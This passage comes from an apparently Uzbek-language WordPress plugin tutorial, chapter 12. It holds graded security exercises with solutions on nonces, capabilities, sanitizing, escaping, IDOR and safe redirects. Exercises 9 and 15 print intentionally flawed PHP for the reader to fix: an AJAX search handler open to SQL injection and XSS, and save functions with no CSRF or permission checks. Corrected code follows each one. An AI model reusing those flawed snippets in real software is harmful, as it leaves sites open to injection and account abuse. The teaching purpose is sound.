	'a'      => [ 'href' => [], 'title' => [] ],
];
$tavsif = wp_kses( wp_unslash( $_POST['kitob_tavsif'] ?? '' ), $allowed );
```

`sanitize_text_field` bu yerda noto'g'ri — u barcha tag'ni o'chiradi. `wp_kses`/`wp_kses_post` allowlist'dagi tag'ni qoldirib, `<script>` va `onclick=` kabilarni tashlaydi. Chiqishda ham `echo wp_kses_post( $tavsif );` bilan chiqarish mumkin.
</details>

9. **(O'rta)** Quyidagi forma qayta ishlash funksiyasida ikkita xavfsizlik nuqsoni bor. Toping va to'g'rilangan kodni yozing:

```php
function kitkat_saqla() {
	update_option( 'kitkat_nom', $_POST['nom'] );
}
```

<details markdown="1"><summary>Yechim</summary>

Nuqsonlar: (1) nonce yo'q (CSRF), (2) capability yo'q, (3) sanitize/unslash yo'q. (Aslida uchta.)

```php
function kitkat_saqla(): void {
	check_admin_referer( 'kitkat_sozlama', 'kitkat_sozlama_nonce' );      // nonce
	if ( ! current_user_can( 'manage_options' ) ) {                       // capability
		wp_die( esc_html__( 'Ruxsat yo\'q.', 'kitoblar-katalogi' ) );
	}
	$nom = sanitize_text_field( wp_unslash( $_POST['nom'] ?? '' ) );      // sanitize
	update_option( 'kitkat_nom', $nom );
}
```

Formada esa `wp_nonce_field( 'kitkat_sozlama', 'kitkat_sozlama_nonce' );` bo'lishi shart.
</details>

10. **(O'rta)** `wp_create_nonce` bilan token yaratib, uni AJAX uchun JS'ga uzatish va serverda `check_ajax_referer` bilan tekshirish oqimini (faqat skelet) yozing.

<details markdown="1"><summary>Yechim</summary>

```php
// Server: tokenni skript ma'lumotiga uzatamiz (enqueue paytida, 14-bob)
$token = wp_create_nonce( 'kitkat_ajax' );
wp_add_inline_script(
	'kitkat-frontend',
	'window.kitkatNonce = ' . wp_json_encode( $token ) . ';',
	'before'
);

// AJAX handler:
add_action( 'wp_ajax_kitkat_amal', 'kitkat_ajax_handler' );
function kitkat_ajax_handler(): void {
	check_ajax_referer( 'kitkat_ajax', 'nonce' ); // yaroqsiz bo'lsa o'zi -1 bilan die
	if ( ! current_user_can( 'edit_posts' ) ) {
		wp_send_json_error( 'ruxsat yo\'q', 403 );
	}
	// ... harakat ...
	wp_send_json_success();
}
```

JS so'rovida `nonce: window.kitkatNonce` yuboriladi. `check_ajax_referer` `$query_arg='nonce'` ni `$_REQUEST` dan oladi. (AJAX to'liq — 15-bob.)
</details>

11. **(O'rta)** `absint` va `(int)` farqini ayting. `absint('-12abc')` nima qaytaradi? Nega yil/ID kabi maydonlar uchun `absint` afzal?

<details markdown="1"><summary>Yechim</summary>

`absint( $x )` = `abs( (int) $x )` — har doim **manfiy bo'lmagan butun** qaytaradi. `(int)` esa manfiy bo'lishi mumkin.

```php
var_dump( absint( '-12abc' ) ); // int(12)
var_dump( (int) '-12abc' );     // int(-12)
```

`(int) '-12abc'` PHP qoidasi bo'yicha boshidagi sonni oladi (`-12`). `absint` uni musbatga aylantiradi. ID, yil, son kabi maydonlar manfiy bo'lmasligi kerakligi uchun `absint` mantiqan to'g'ri va xavfsizroq.
</details>

12. **(O'rta)** IDOR nima? `current_user_can( 'edit_posts' )` va `current_user_can( 'edit_post', $post_id )` orasidagi farq qanday qilib IDOR'dan himoya qiladi?

<details markdown="1"><summary>Yechim</summary>

IDOR — foydalanuvchi URL'dagi obyekt ID'sini o'zgartirib (`?id=5` -> `?id=6`), o'ziga tegishli bo'lmagan obyektga kirishi. `current_user_can( 'edit_posts' )` faqat "umuman post tahrirlay oladimi?" deb tekshiradi — `id=6` begona bo'lsa ham o'tib ketadi. `current_user_can( 'edit_post', $post_id )` esa **aynan shu** post uchun huquqni tekshiradi (egalik/rol hisobga olinadi). Shuning uchun konkret obyekt bilan ishlaganda doim ID'li meta-capability ishlatiladi.
</details>

### Qiyin

13. **(Qiyin)** Sof-PHP `kitkat_sanitize_yil( $xom )` funksiyasini yozing: kiritmani butun songa aylantirsin, 1450 dan 2100 gacha bo'lsa qaytarsin, aks holda 0. WP'siz `php` bilan ishlasin va bir nechta test holatini chop etsin.

<details markdown="1"><summary>Yechim</summary>

```php
function kitkat_sanitize_yil( mixed $xom ): int {
	$yil = (int) $xom;
	return ( $yil >= 1450 && $yil <= 2100 ) ? $yil : 0;
}

var_dump( kitkat_sanitize_yil( '2026' ) );    // int(2026)
var_dump( kitkat_sanitize_yil( '99' ) );      // int(0)  - juda kichik
var_dump( kitkat_sanitize_yil( '3000' ) );    // int(0)  - juda katta
var_dump( kitkat_sanitize_yil( '2010abc' ) ); // int(2010)
var_dump( kitkat_sanitize_yil( '<script>' ) );// int(0)
```

Bu funksiya WordPress'siz ishlaydi va diapazon tekshiruvini qo'shadi (faqat tip emas, **mantiqiy** chegara ham — bu kuchli sanitize). Meta box saqlashda: `update_post_meta( $id, '_kitob_yil', kitkat_sanitize_yil( $_POST['kitob_yil'] ?? 0 ) );`.
</details>

14. **(Qiyin)** "Kitobni o'chirish" havolasini to'liq xavfsiz quring: `wp_nonce_url` bilan havola, `admin_post_*` handler'da `check_admin_referer` + `current_user_can( 'delete_post', $id )` + `wp_delete_post` + `wp_safe_redirect`. Nega `wp_safe_redirect` (oddiy `wp_redirect` emas)?

<details markdown="1"><summary>Yechim</summary>

```php
namespace Oqil\KitobKatalog;

function kitkat_ochirish_havolasi( int $kitob_id ): string {
	$url = wp_nonce_url(
		admin_url( 'admin-post.php?action=kitkat_kitob_ochir&kitob_id=' . $kitob_id ),
		'kitkat_kitob_ochir_' . $kitob_id,
		'kitkat_nonce'
	);
	return '<a href="' . esc_url( $url ) . '">'
		. esc_html__( 'O\'chirish', 'kitoblar-katalogi' ) . '</a>';
}

add_action( 'admin_post_kitkat_kitob_ochir', __NAMESPACE__ . '\\kitkat_ochir_handler' );

function kitkat_ochir_handler(): void {
	$kitob_id = absint( $_GET['kitob_id'] ?? 0 );
	check_admin_referer( 'kitkat_kitob_ochir_' . $kitob_id, 'kitkat_nonce' );
	if ( ! current_user_can( 'delete_post', $kitob_id ) ) {
		wp_die( esc_html__( 'Ruxsat yo\'q.', 'kitoblar-katalogi' ) );
	}
	wp_delete_post( $kitob_id, true );
	wp_safe_redirect( admin_url( 'edit.php?post_type=kitob&kitkat_ochirildi=1' ) );
	exit;
}
```

`wp_safe_redirect` faqat ruxsat etilgan (lokal yoki allowlist'dagi) host'larga yo'naltiradi — agar yo'naltirish manzili foydalanuvchi kiritmasiga bog'liq bo'lsa, **ochiq-redirect** zaifligini to'sadi. Nonce'ni `_ . $kitob_id` bilan har kitobga noyob qildik. `current_user_can` ga konkret `$kitob_id` uzatdik (IDOR himoyasi).
</details>

15. **(Qiyin)** Quyidagi kodda **to'rtta** turli xavfsizlik nuqsoni bor (har xil zaiflik turi). Hammasini aniqlang, qaysi zaiflik turi ekanini ayting va to'g'rilangan versiyani yozing:

```php
add_action( 'wp_ajax_kitkat_qidir', function () {
	global $wpdb;
	$q = $_POST['q'];
	$natija = $wpdb->get_results( "SELECT post_title FROM {$wpdb->posts} WHERE post_title LIKE '%$q%'" );
	foreach ( $natija as $r ) {
		echo '<li>' . $r->post_title . '</li>';
	}
	wp_die();
} );
```

<details markdown="1"><summary>Yechim</summary>

Nuqsonlar:

1. **Nonce yo'q (CSRF)** — `check_ajax_referer` chaqirilmagan.
2. **SQLi** — `$q` to'g'ridan-to'g'ri so'rovga yopishtirilgan (`'%$q%'`). `$wpdb->prepare` kerak.
3. **XSS (chiqish escape yo'q)** — `$r->post_title` escape'siz echo qilingan.
4. **Sanitize yo'q** — `$_POST['q']` unslash/sanitize qilinmagan (va capability ham yo'q — bonus).

To'g'rilangan:

```php
add_action( 'wp_ajax_kitkat_qidir', function (): void {
	check_ajax_referer( 'kitkat_qidir', 'nonce' );          // 1) nonce
	global $wpdb;
	$q   = sanitize_text_field( wp_unslash( $_POST['q'] ?? '' ) ); // 4) sanitize
	$like = '%' . $wpdb->esc_like( $q ) . '%';
	$natija = $wpdb->get_results(                            // 2) prepare
		$wpdb->prepare(
			"SELECT post_title FROM {$wpdb->posts}
			 WHERE post_status = %s AND post_title LIKE %s",
			'publish',
			$like
		)
	);
	foreach ( $natija as $r ) {
		echo '<li>' . esc_html( $r->post_title ) . '</li>'; // 3) escape
	}
	wp_die();
} );
```

`$wpdb->esc_like()` `LIKE` ichidagi `%`/`_` belgilarini ham qochiradi (10-bob). To'rt ustun: nonce + sanitize + prepare + escape.
</details>

16. **(Qiyin)** Tushuntiring: nega bir qiymat bazada "toza" saqlangan bo'lsa ham, chiqishda yana escape qilish kerak? "Sanitize qildim, escape kerak emas" fikri qaysi hollarda zaiflikka olib keladi?

<details markdown="1"><summary>Yechim</summary>

Sanitize **kirish kontekstini** bilmaydi, lekin chiqish kontekstini ham bilmaydi. Misol: `sanitize_text_field` matnni tozalaydi, lekin `&`, `<`, `"` belgilarini **qoldirishi** mumkin (ular oddiy matnda yaroqli). Shu qiymat keyin HTML atributiga (`value="..."`) qo'yilsa — escape'siz `"` atributni "yopib", zaiflik ochadi.

Ikkinchi sabab — **kontekst saqlash paytida noma'lum.** Bitta qiymat (masalan muallif ismi) bir joyda HTML matn, boshqa joyda atribut, uchinchi joyda URL bo'lib chiqishi mumkin. Saqlash payti qaysi kontekstda chiqishini bilmaydi. Shuning uchun: **sanitize kirishda (bir marta), escape har chiqishda (kontekstga mos)**. "Bir marta tozaladim" yetarli emas, chunki XSS chiqish kontekstida tug'iladi, kirish emas.

Uchinchi sabab — **ma'lumot boshqa manbadan kelishi mumkin** (boshqa plugin, eski baza, import). Chiqishda escape qilish — yagona ishonchli himoya nuqtasi.
</details>

---

[⬅️ Oldingi: 11 — Foydalanuvchi, rol va capabilities](./11-rollar-capabilities.md) · [🏠 README](./README.md) · [Keyingi: 13 — Shortcode'lar ➡️](./13-shortcode.md)
